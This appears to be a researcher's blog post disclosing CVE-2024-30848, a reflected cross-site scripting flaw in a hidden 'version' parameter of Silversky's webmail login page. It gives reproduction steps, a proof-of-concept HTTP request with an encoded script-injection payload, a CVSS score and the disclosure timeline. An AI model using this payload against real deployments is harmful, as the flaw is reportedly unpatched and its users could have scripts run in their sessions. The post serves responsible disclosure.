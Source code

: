 ```yaml
---
title: CVE-2024-30848: An XSS Vulnerability in Silversky's Mailing Service
date: 2024-06-16 00:00:00 +0200
categories: [CVE, Vulnerabilities]
tags: [xss]
---
```


![CVE Image](/Excis3/excis3.github.io/main/media/cve.png)

As security researchers, we often stumble upon vulnerabilities that have the potential to compromise systems and expose sensitive information. One such discovery is the Cross-Site Scripting (XSS) vulnerability, identified as CVE-2024-30848, in Silversky's mailing protection service. This blog post details the discovery process, the vulnerability itself, and the disclosure timeline.


## Introduction
Cross-Site Scripting (XSS) vulnerabilities are a common yet dangerous threat to web applications, allowing attackers to inject malicious scripts into web pages viewed by other users. On March 17, 2024, I discovered an XSS vulnerability in a hidden parameter named **version** within Silversky's mailing protection service. Despite multiple attempts to contact Silversky for remediation, the company has not responded.


## The Discovery
The journey to uncovering CVE-2024-30848 began quite unexpectedly. I got a message from my bug bounty framework that it had found an XSS. While reviewing the findings, I noticed that a particular program was using an external webmail service where the XSS was popping. Intrigued by this, I delved deeper into the service, which led me to discover that the service they were using was provided by Silversky. During this examination, I identified a hidden parameter named **version** that appeared to be vulnerable to XSS attacks.


## Technical Details
Silversky mailing service is a webmail service that they provide to various customers. However, the hidden **version** parameter within its web interface was susceptible to XSS. By exploiting this vulnerability, an attacker could inject malicious scripts into the webpage, potentially compromising the security of the users interacting with the service.


### Steps to Reproduce the Vulnerability
1. Access the Silversky mailing protection service web interface.
2. Locate the hidden **version** parameter in the HTTP request.
3. Inject a malicious script into the **version** parameter.
4. Observe the execution of the script when the webpage is loaded, confirming the XSS vulnerability.


### PoC
```
GET /tpl/Door/Login?Domain=&version=1--%3E%3Cbody%3E%3Ch1%3EPoC%20by%20Excis3%3C/h1%3E%3Cscript%3Eprint(%271%27)%3C/script%3E%3C/body%3E%3C/html%3E%3C!-- HTTP/1.1
Host: <HOST>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
Connection: keep-alive
```


### CVSS Breakdown
| Vector                       | Country |
| :--------------------------- | ------: |
| Attack Vector (AV) | Network |
| Attack Complexity (AC) | Low |
| Privileges Required (PR) | None |
| User Interaction (UI) | Required |
| Scope (S) | Changed |
| Confidentiality (C) | Low |
| Integrity (I) | Low |
| Availability (A) | None |

Score: Medium 6.1


## Disclosure Timeline
The following timeline outlines the attempts made to disclose this vulnerability to Silversky:

- **March 17, 2024**: Vulnerability discovered.
- **March 18, 2024**: Initial disclosure email sent to supportdb@silversky.com.
- **March 18, 2024**: MITRE CVE request.
- **March 22, 2024**: Follow-up email sent to supportdb@silversky.com.
- **March 22, 2024**: Email sent to Jackson, the CTO, at jackson@silversky.com.
- **March 22, 2024**: Reached out to Silversky via Twitter (@silversky).
- **March 22, 2024**: Attempted to connect with relevant personnel on LinkedIn.
- **April 04, 2024**: MITRE Reserved CVE-2024-30848
- **May 7, 2024**: Final email sent to supportdb@silversky.com.
- **June 18, 2024**: Disclosed issue.

Despite these efforts, no response was received from Silversky regarding the reported vulnerability.


## Conclusion
CVE-2024-30848 highlights the importance of timely and effective communication between security researchers and software providers. While discovering vulnerabilities is crucial, addressing them promptly is equally important to safeguard users. As security researchers, our goal is to enhance the safety and security of digital systems. Publicly disclosing this vulnerability after the 90-day grace period is a step towards urging Silversky to take action and protect its users from potential XSS attacks. We hope this disclosure will lead to the necessary remediation and raise awareness about the significance of addressing security vulnerabilities.

Stay safe and secure,

**Excis3**
